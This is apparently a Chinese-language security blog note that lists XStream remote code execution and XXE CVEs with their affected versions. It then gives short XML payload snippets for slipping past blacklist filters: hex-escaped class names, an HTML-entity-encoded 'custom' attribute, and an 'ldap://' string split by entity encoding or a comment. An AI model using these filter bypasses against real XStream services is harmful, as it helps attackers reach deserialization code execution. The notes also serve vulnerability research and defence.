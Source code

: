 ```yaml
---
title: "XStream漏洞汇总"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:39:15+08:00
draft: false
---
```


| XStream 远程代码执行漏洞 | CVE-2013-7285                                                    | 1.4.x&lt;XStream &lt;= 1.4.6&amp;=1.4.10 |
|------------------|------------------------------------------------------------------|------------------------------------------|
| XStream XXE      | [CVE-2016-3674](https://x-stream.github.io/CVE-2016-3674.html)   | 1.4.x&lt;XStream &lt;= 1.4.8             |
| XStream 远程代码执行漏洞 | CVE-2019-10173                                                   | XStream = 1.4.10                         |
| XStream 远程代码执行漏洞 | [CVE-2020-26217](https://x-stream.github.io/CVE-2020-26217.html) | 1.4.x&lt;XStream &lt;= 1.4.13            |
| XStream 远程代码执行漏洞 | [CVE-2021-21344](https://x-stream.github.io/CVE-2021-21344.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21345](https://x-stream.github.io/CVE-2021-21345.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21346](https://x-stream.github.io/CVE-2021-21346.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21347](https://x-stream.github.io/CVE-2021-21347.html) | 1.4.x&lt;XStream&lt;= 1.4.15             |
| XStream 远程代码执行漏洞 | [CVE-2021-21350](https://x-stream.github.io/CVE-2021-21350.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-21351](https://x-stream.github.io/CVE-2021-21351.html) | 1.4.x&lt;XStream: &lt;= 1.4.15           |
| XStream 远程代码执行漏洞 | [CVE-2021-29505](https://x-stream.github.io/CVE-2021-29505.html) | 1.4.x&lt;XStream: &lt;= 1.4.16           |
| XStream 远程代码执行漏洞 | CVE-2021-39141                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39144                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39146                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39148                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39152                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |
| XStream 远程代码执行漏洞 | CVE-2021-39154                                                   | 1.4.x&lt;XStream: &lt;= 1.4.17           |


## bypass {#bypass}


### 16 进制绕过 {#16-进制绕过}

黑名单为：org[.]springframework
payload:

```xml
<org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
```


### 针对标签属性内容的绕过 {#针对标签属性内容的绕过}

黑名单：custom
payload:

```xml
<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="cust&#111;m">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
```


### 针对标签内容的绕过 {#针对标签内容的绕过}

黑名单：ldap://
payload:

```xml
1. html 编码
<test>
&#108;dap://xxxxx
</test>

2. 注释
<test>
ld<!-- test -->ap://xxxxx
</test>
```
